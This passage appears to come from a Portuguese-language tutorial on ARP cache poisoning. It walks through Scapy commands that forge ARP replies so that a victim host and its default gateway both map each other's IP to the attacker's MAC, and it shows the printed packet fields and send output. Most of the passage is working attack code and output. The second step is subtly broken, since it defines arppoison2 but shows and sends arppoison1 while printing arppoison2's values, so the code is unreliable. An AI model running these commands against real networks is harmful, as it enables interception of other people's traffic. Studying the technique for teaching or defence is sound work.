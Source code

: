 ```python
>>> arppoison1 = ARP(op = 2, psrc = "192.168.1.1", pdst = "192.168.1.101", hwdst = "b4:2e:99:f4:b7:df")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.1
  hwdst= b4:2e:99:f4:b7:df
  pdst= 192.168.1.101

>>> send(arppoison1)
.
Sent 1 packets.
```

Observe que o que está sendo enviado para a vítima (`192.168.1.101` no MAC `b4:2e:99:f4:b7:df`) é que o IP `192.168.1.1` (default gateway) está (`is-at`) no MAC `28:56:5a:49:ff:67` (`hwsrc`) que na verdade é o MAC do atacante.


- 3º passo: “envenenar” o arp cache do default gateway na linha da vítima, preenchendo com o MAC address do atacante
- Solução: fake arp reply

```python
>>> arppoison2 = ARP(op = 2, psrc = "192.168.1.101", pdst = "192.168.1.1", hwdst = "c4:e9:84:9a:14:16")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.101
  hwdst= c4:e9:84:9a:14:16
  pdst= 192.168.1.1

>>> send(arppoison1)
.
Sent 1 packets.
```

Observe agora que o que está sendo enviado para o gateway (`192.168.1.1` no MAC `c4:e9:84:9a:14:16`) é que o IP `192.168.1.101` (vítima) está (`is-at`) no MAC `28:56:5a:49:ff:67` (`hwsrc`) que na verdade é o MAC do atacante.

A partir desse momento, o gateway acha que a vítima está no MAC do atacante assim como a vítima acha que o gateway está no mesmo MAC malicioso.

